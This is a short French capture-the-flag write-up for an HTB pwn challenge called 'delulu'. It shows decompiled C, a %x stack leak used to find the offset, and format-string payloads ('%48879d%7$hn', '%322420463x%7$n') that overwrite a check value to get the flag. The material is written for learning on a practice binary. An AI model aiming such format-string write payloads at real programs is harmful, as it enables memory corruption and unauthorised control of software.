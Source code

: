 # Format string

On décompile avec Binary Ninja et on se rend compte qu'un printf n'est pas formaté + il faut modifier un check définit avant ce que l'on contrôle:

![fmt](./fmt.png)

On cherche à écrire 0x1337beef dans l'addresse du check.

## Déterminer le $n et l'addresse du check = où écrire

Puis on tente de trouver le n. Le check= var38

```bash
>> 
[!] Checking.. eb31dbb0.0.96714887.10.7fffffff.1337babe.eb31fcd0.252e7825.2e78252e.78252e78.
[-] ALERT ALERT ALERT ALERT

┌─[night@night-20b7s2ex01]─[~/htb/pwn/delulu]
└──╼ 5 fichiers, 36Kb)─$ python -c "print('%x.'*20)" | ./delulu 
```

Ici, comme on a déclaré dans l'ordre, on a d'abord var48:

```c
int64_t  var_48 = 0x1337babe; // fp - 48
int64_t* var_40 = &var_48:    // fp - 40
int64_t  var_38;              // fp - 38 (variable lue puis print)
...
printf(&var_38);
```

Que l'on lit avec un **frame offset de 6** (1337babe). 

Or **ce qui suit** est le pointeur `int *var40 = &var48`, donc **l'addresse de var48 est ici située dans la variable n+1**
On lit donc l'addresse de var_38 à modifier AKA le check à `eb31fcd0` = **$7%s**


On peut aussi lancer **bf_fmt.py**.

## Exploit 

Rappel: 0x1337beef = 0x1337 (high) "+" 0xbeef (low)

On écrit donc `1337beef` à l'addresse récupérée par `$7%n`:

```bash
rax2 0x1337beef
322420463
```

```c
%322420463x%7$n
```

Ou encore plus simplement modifier les lows bytes du check `babe` en `beef`:

```bash
rax2 0xbeef
48879
```

```c
%48879d%7$hn
```

![flag](./flag.png)
